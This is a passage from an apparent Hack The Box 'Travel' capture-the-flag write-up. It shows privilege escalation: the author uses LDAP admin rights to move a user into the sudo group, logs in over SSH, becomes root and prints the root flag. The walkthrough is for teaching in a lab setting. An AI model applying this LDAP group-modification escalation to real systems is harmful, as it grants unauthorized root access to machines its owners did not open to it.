We are currently experiencing some delay in domain
replication times of about 3-5 seconds. Sorry for
the inconvenience. Kind Regards, admin


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

lynik@travel:~$ id
uid=5000(lynik) gid=5000(domainusers) groups=5000(domainusers)
lynik@travel:~$
```

Since this user is an ldap admin and can modify anything, I tried setting lynik uid and gid to 0 \(root\) but then was denied ssh login due to configuration to deny root login;

```text
lynik@travel:/var$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:syslog,trvl-admin
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:trvl-admin
floppy:x:25:
tape:x:26:
sudo:x:27:trvl-admin
audio:x:29:
dip:x:30:trvl-admin
www-data:x:33:
backup:x:34:
operator:x:37:
list:x:38:
irc:x:39:
src:x:40:
gnats:x:41:
shadow:x:42:
utmp:x:43:
video:x:44:
sasl:x:45:
plugdev:x:46:trvl-admin
staff:x:50:
games:x:60:
users:x:100:
nogroup:x:65534:
systemd-journal:x:101:
systemd-network:x:102:
systemd-resolve:x:103:
systemd-timesync:x:104:
crontab:x:105:
messagebus:x:106:
input:x:107:
kvm:x:108:
render:x:109:
syslog:x:110:
tss:x:111:
uuidd:x:112:
tcpdump:x:113:
ssh:x:114:
landscape:x:115:
lxd:x:116:trvl-admin
systemd-coredump:x:999:
trvl-admin:x:1000:
lynik-admin:x:1001:
docker:x:117:
sssd:x:118:
```

I checked sudoers file and saw that admins and members of sudo group can run all commands as root so I changed group id to 27 \(sudo\) then logout and back in

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ ssh lynik@10.10.10.189 -i lynik
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 19 Sep 2020 04:12:42 PM UTC

  System load:                      0.06
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        197
  Users logged in:                  1
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

Last login: Sat Sep 19 16:12:03 2020 from 10.10.15.53
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

lynik@travel:~$ id
uid=5000(lynik) gid=27(sudo) groups=27(sudo),5000(domainusers)

┌──(zweilos㉿kali)-[~/htb/travel]
└─$ ssh lynik@10.10.10.189 -i lynik
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 19 Sep 2020 04:12:42 PM UTC

  System load:                      0.06
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        197
  Users logged in:                  1
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

Last login: Sat Sep 19 16:12:03 2020 from 10.10.15.53
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

lynik@travel:~$ id
uid=5000(lynik) gid=27(sudo) groups=27(sudo),5000(domainusers)
```

### Getting a shell

after adding this user to the sudoers group:

```text
lynik@travel:~$ sudo -l
[sudo] password for lynik: 
Matching Defaults entries for lynik on travel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lynik may run the following commands on travel:
    (ALL : ALL) ALL
lynik@travel:~$ sudo su -
root@travel:~# cat root.txt 
550099de4950e4d03a939943ad265eb0
```

### Root.txt

Thanks to xct [`xct`](https://www.hackthebox.eu/home/users/profile/13569) & [`jkr`](https://www.hackthebox.eu/home/users/profile/77141) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

